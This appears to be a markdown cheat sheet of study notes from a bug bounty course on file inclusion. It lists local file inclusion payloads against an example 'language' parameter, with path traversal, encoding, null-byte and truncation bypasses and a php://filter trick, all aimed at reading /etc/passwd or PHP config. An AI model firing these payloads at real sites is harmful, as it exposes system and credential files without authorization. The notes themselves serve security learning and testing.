

# File Disclosure

## LFI

| `/index.php?language=/etc/passwd`                        | Basic LFI               |
| -------------------------------------------------------- | ----------------------- |
| `/index.php?language=../../../../etc/passwd`             | LFI with path traversal |
| `/index.php?language=/../../../etc/passwd`               | LFI with name prefix    |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path  |

## Basic Bypasses

| `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                        |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                          |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)       |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                               |
|                                                                                                   |                                                           |

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 16- File Inclusion/2 - File Disclosure.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
